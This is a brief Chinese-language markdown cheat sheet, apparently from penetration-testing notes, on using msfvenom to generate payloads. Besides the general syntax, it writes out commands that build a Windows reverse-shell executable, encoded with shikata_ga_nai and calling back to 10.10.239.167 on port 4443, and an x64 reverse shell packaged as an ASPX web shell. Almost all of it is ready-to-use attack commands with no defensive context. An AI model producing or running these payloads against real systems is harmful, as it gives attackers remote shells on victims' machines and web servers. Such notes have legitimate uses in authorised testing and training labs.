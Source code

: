 ```yaml
---
tags:
  - 工具
  - C2
  - payload
---
```



**列出payload**：  
```bash
msfvenom -l payloads
```
### 用法：  

```bash
msfvenom -p <payload> LHOST=<本地IP> LPORT=<监听端口> -f <文件类型> -o <文件名>
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.239.167 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f aspx -o  reverse-shell.aspx
```


